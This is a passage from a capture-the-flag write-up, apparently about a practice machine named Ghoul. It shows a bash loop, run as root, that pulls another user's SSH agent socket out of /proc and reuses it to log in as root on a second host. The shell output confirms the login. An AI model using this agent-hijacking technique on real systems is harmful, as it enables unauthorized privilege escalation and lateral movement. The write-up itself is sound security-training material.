 
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch

    155 packages can be updated.
    0 updates are security updates.

    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

    Last login: Tue May 28 07:00:01 2019 from 172.18.0.200
    root@Aogiri:~#



But more fun is to create a `bash` one-liner that watches for the
connection and connects when it's time:



    root@kaneki-pc:/tmp# while true; do
    >  export pid=$(ps -u kaneki_adm | grep ssh$ | tr -s ' ' | cut -d' ' -f2);
    >  if [ ! -z $pid ]; then
    >    echo "[+] Found pid for kaneki_adm ssh process: $pid";
    >    export SSH_AUTH_SOCK=$(su kaneki_adm -c 'cat /proc/${pid}/environ' | sed 's/\x0/\n/g' | grep SSH_AUTH_SOCK | cut -d'=' -f2);
    >    echo "[+] Found ssh auth socket: $SSH_AUTH_SOCKET";
    >    echo "[*] sshing to target";
    >    ssh root@172.18.0.1 -p 2222;
    >    break;
    >  fi;
    >  sleep 5;
    > done                                                                                                                                                                                        
    [+] Found pid for kaneki_adm ssh process: 20652
    [+] Found ssh auth socket: /tmp/ssh-p5macmIvgg/agent.20329
    [*] sshing to target
    Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage


     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch

    155 packages can be updated.
    0 updates are security updates.

    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

    Last login: Tue May 28 22:24:01 2019 from 172.18.0.200
    root@Aogiri:~# 



Either way, I can now finally grab `root.txt`:
